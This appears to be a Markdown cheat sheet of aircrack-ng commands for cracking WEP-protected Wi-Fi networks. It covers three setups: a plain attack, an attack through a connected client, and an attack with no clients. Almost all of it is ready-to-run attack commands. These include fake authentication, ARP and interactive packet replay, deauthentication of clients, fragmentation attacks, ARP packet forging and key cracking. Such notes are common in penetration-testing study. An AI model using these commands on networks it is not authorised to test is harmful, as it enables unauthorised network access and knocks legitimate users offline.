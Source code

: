 ```bash
# packet capture
sudo airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# retrieve MAC address
macchanger --show <INTERFACE>

# fake authentication attack
sudo aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>

# ARP request replay attack
sudo aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> <INTERFACE>

# deauthentication attack
sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>

# crack once we have significant number of IVs
aircrack-ng <CAPTURE_NAME>
aircrack-ng -f <FUDGE> <CAPTURE_NAME>
```

## WEP via Client

1. Make use of connected client to perform Interactive Replay Attack

```bash
# packet capture
sudo airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# retrieve MAC address
macchanger --show <INTERFACE>

# fake authentication attack
sudo aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>

# interactive packet replay attack
sudo aireplay-ng -2 -b <BSSID> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <INTERFACE>

# crack 
aircrack-ng <CAPTURE_NAME>
```

## WEP without Clients

Fragmentation Attack

```bash
# packet capture
sudo airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

# retrieve MAC address
macchanger --show <INTERFACE>

# fake authentication attack
sudo aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>

# fragmentation attack
sudo aireplay-ng -5 -b <BSSID> -h <YOUR_MAC> <INTERFACE>

# forging ARP packet with the XOR packet from fragmentation attack
packetforge-ng -0 -a <BSSID> -h <YOUR_MAC> -k 255.255.255.255 -l 255.255.255.255 -y <FRAGMENT_PACKET>.xor -w <ARP_PACKET_NAME>

# interactive packet replay attack with the forge ARP packet
sudo aireplay-ng -2 -r <ARP_PACKET_NAME> <INTERFACE>
```